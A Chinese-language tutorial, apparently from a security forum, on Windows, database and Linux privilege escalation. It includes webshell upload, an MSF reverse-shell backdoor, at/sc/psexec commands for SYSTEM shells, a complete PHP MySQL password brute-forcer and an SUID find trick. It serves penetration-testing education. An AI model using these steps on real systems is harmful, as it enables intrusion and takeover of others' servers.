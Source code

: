 权限提升全集
======

写在前面
----

权限提升对我们在深度渗透过程中起着重要作用，接下来我将介绍web提权、本地提权、数据库提权、linux提权。

权限的划分
-----

**1、system账户**  
Windows系统最高级别的权限是System用户权限，有一些操作需要System权限才能完成，比如修改注册表核心键值、强制结束恶意应用程序进程等。  
**2、管理员账户**  
具有最高的管理和使用权限，能改变系统所有设置，可以安装和删除程序，能访问计算机上所有的文件。除此之外，它还拥有控制其他用户的权限。  
**3、普通用户账户**  
某些功能的使用，是受到一定限制的账户，在系统中可以创建多个此类账户，也可以改变其账户类型。该账户可以访问已经安装在计算机上的程序，可以设置自己账户的图片、密码等，但无权更改大多数计算机的设置。

Web提权
-----

获取网站权限后，我们仅仅只能对网站操作，无法对服务器进行操作，需要对服务器进行提权，获取到更高权限。  
**案例演示**  
1.上传后门文件，获取到webshell权限  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-094455dcab60ab50f36f1f6f2dd45ebea05deeaa.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-094455dcab60ab50f36f1f6f2dd45ebea05deeaa.png)  
2.在web权限提升中，最常用的是溢出漏洞提权，用cmd去执行文件进行提权，从下图可以清晰的看到我们在webshell看到的权限和服务器上看到的权限是不一样的。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-1a4dff6e9a9280426baddfd8ea0cb362d3850a08.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-1a4dff6e9a9280426baddfd8ea0cb362d3850a08.png)  
3.利用systeminfo进行信息收集，一般关注操作系统版本，打过的补丁编号。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-601d3ed84fc523a70c1b6997792b99b06fabbfff.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-601d3ed84fc523a70c1b6997792b99b06fabbfff.png)  
4.获取到补丁编号后，我们要进行补丁筛选，推荐两个优秀项目：wesng , windowsVulnScan。将上面收集到的信息保存到1.txt中，利用wesng进行补丁筛选  
下载地址分别为：  
<https://github.com/bitsadmin/wesng>  
<https://github.com/chroblert/WindowsVulnScan>  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-0fd5415ca803dfa86f960b7f151cd24794bcc270.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-0fd5415ca803dfa86f960b7f151cd24794bcc270.png)  
5.执行完后会将可能存在的漏洞保存在vuln.csv中  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-b8144eb0f983c5e925e05665588a529badf50e10.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-b8144eb0f983c5e925e05665588a529badf50e10.png)  
6.利用MSF或特定EXP进行提权（msf要搭建在外网，才能将会话反弹到本机，内网不能反弹）生成一个5577.exe后门，webshell执行该后门，反弹的端口号为5577  
Msf安装教程:<http://www.ttk7.cn/post-27.html>  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-836f14eff7dede976421d6c246f83b1c87c3b70a.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-836f14eff7dede976421d6c246f83b1c87c3b70a.png)  
7.设置监听端口为5577  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-7b2197e97810c547c694a054e58fdaa1019888f8.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-7b2197e97810c547c694a054e58fdaa1019888f8.png)  
8.端口反弹的权限为web权限  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-10df8a2c7b2941b337382b3d9d136a99176bbfd6.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-10df8a2c7b2941b337382b3d9d136a99176bbfd6.png)  
9.利用wesng中收集到的漏洞编号，进行模块利用，并且设置反弹端口，此时的端口号应该与前面的不同，这个端口反弹的权限为提权后的权限，并且监听的回话为3，与上面的会话对应  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-4972e1e16f56b2efdbc61a98a69e30e8fa68b4da.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-4972e1e16f56b2efdbc61a98a69e30e8fa68b4da.png)  
10.成功反弹system权限  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-d3590bc363a46ee05345d735397a26ca43290e50.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-d3590bc363a46ee05345d735397a26ca43290e50.png)

本地提权
----

获取本地普通用户的权限后，要将权限提升为更高权限，本地提权的成功概率比web提权更高。  
**案例演示**  
**1.系统溢出漏洞提权**  
直接网上下载BitsArbitraryFileMoveExploit.exe,运行就可以提升为系统权限[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-d5b1e0bc606f156c02a13fe3f553571885acff08.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-d5b1e0bc606f156c02a13fe3f553571885acff08.png)  
**2.AT命令提权:**  
at 13:36 /interactive cmd.exe (在13：36分生成一个交互式的System权限的cmd)  
使用版本：Win2000 &amp; Win2003 &amp; XP  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-01eb13a00b684b0be8b1c70ab3b81d6eaae8a990.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-01eb13a00b684b0be8b1c70ab3b81d6eaae8a990.png)  
**3.SC命令提权：**  
sc Create syscmd binPath= “cmd /K start” type= own type= interact #创建一个名叫syscmd的新的交互式的cmd服务  
sc start syscmd #得到了system权限的cmd环境  
适用版本：windows 7、8、03、08  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-9957356e2d5e9ca9336140945799a62053be95c5.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-9957356e2d5e9ca9336140945799a62053be95c5.png)  
**4.PS命令提权**  
微软工具包：<https://docs.microsoft.com/zh-cn/sysinternals/downloads/pstools>  
psexec.exe -accepteula -s -i -d cmd.exe  
适用版本：Win2003 &amp; Win2008  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-250bb03cb4430ebb4ff2d63d6044799779bc9c51.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-250bb03cb4430ebb4ff2d63d6044799779bc9c51.png)

数据库提权
-----

**Mysql数据库提权**  
利用UDF提权  
在利用UDF提权时前提是我们需要知道数据库的密码，而在正常情况下MySQL数据库不支持外连，此时如果我们用工具爆破不了，可以上传脚本进行爆破，脚本如下：

```php
<html>
 <head>
  <title>Mysql账号密码爆破工具</title>
  <m eta http-equiv="Content-Type" content="text/html; charset=utf-8">
 </head>
 <body>
  <center>
   <br><br>
   <h1>MysqlDatab aseBlasting(Mysql账号密码在线爆破工具 V1.0)</h1>
  <br>
<?php
 if(@$_POST['submit']){
   $host = @$_POST['host'];
   if($host!=""){
    $username = "root";//用户名字典
    $password = array('','123456','admin','root123','ccf304vn'); //密码字典
    echo "<hr><br>--------------------爆破状态--------------------<br>";
    echo "密码错误次数：";
    for ($i=0; $i <= count($password); $i++) {
     if(@mysql_connect($host, $username, $password[$i])){
       echo "<br><br><font color='red'>爆破成功--密码-->".@$password[$i]."</font>";
       break;
     }else{
       echo $i."、";
       continue;
     }
    }
    echo "<br>--------------------爆破结束--------------------<br><hr>";
   }else{
    echo "<s cript>a lert('黑客，输入数据库IP地址')</s cript>";
   }
 }
?>
<br><br><br><br>
  <form action="MysqlDatab aseBlasting.php" method="post">
   数据库IP地址:<input type="text" name="host"/>
   <input type="submit" value="爆破" name="submit"/>
  </form>
<center>
</body>
 </html>
```

有些提权网上已经写得很完整，所以接下来有的提权过程就没有演示，这是我收集的比较好的文章，请大家参考。[https://blog.csdn.net/qq\_36119192/article/d](https://blog.csdn.net/qq_36119192/article/d) etails/84863268  
**2.Mssql数据库提权**  
请参考：<https://www.cnblogs.com/N0r4h/p/12889944.html>  
**3.Oracle数据库提权**  
分为以下三种模式：  
普通用户模式  
前提是拥有一个普通的Oracle连接账号，不需要DBA，并以Oracle实例运行的权限执行操作系统命令。  
DBA用户模式  
拥有DBA账号密码，可以省去自己手动创建存储过程的繁琐步骤，一键执行测试。  
注入提升模式  
拥有一个Oracle注入点，可以通过注入点执行系统命令，此种模式没有实现回显，需要自己验证。  
一般Oracle数据库利用这个工具进行提权（自带以上三种提权方式）  
下载地址:<https://github.com/jas502n/oracleShell>  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-ce157943830f8003e23f176edac71031309010c7.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-ce157943830f8003e23f176edac71031309010c7.png)

Linux操作系统提权
-----------

推荐两个开源的项目  
信息收集脚本  
LinEnum-master：<https://github.com/rebootuser/LinEnum>  
漏洞探针脚本，获取可能存在的漏洞  
linux-exploit-suggester：<https://github.com/mzet-/linux-exploit-suggester>  
在进行linux提权时，推荐使用冰蝎，因为冰蝎里面有很多集成化功能，可以反弹shell到msf中。  
下载地址：<https://github.com/rebeyond/Behinder>  
**案例演示**  
**1.SUID提权**  
漏洞成因：在对文件进行权限设置时，给了文件suid权限，在执行该文件时，会调用特定用户  
上传一个脚本到网站，利用冰蝎连接，设置反弹shell  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-87ad892e319cc950c4c6ac2fed72d3a9e1e5d8c5.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-87ad892e319cc950c4c6ac2fed72d3a9e1e5d8c5.png)  
在msf中执行上面的命令，web权限反弹到msf中  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-d889a1b132cab334ea0ffebe0844eb48980f855d.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-d889a1b132cab334ea0ffebe0844eb48980f855d.png)  
上传漏洞探针脚本，并执行，查看是否有suid提权的可能性  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-6b86777f9515027eaf99c7a339d26b093454670e.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-6b86777f9515027eaf99c7a339d26b093454670e.png)  
执行一下命令，成功提升为root用户  
touch shenghuo  
find shenghuo -exec whoami \\;  
**2.内核漏洞提权**  
在内核漏洞提权时，前提要是本地用户才能进行提权  
请参考：<https://www.moonsec.com/archives/379>  
**3.脏牛提权**  
请参考：<https://www.cnblogs.com/xiaozi/p/13370721.html>  
**4.定时任务提权**  
请参考：<https://www.yidc.net/archives/4380>  
**5.环境变量提权**  
请参考：<https://www.freebuf.com/articles/system/173903.html>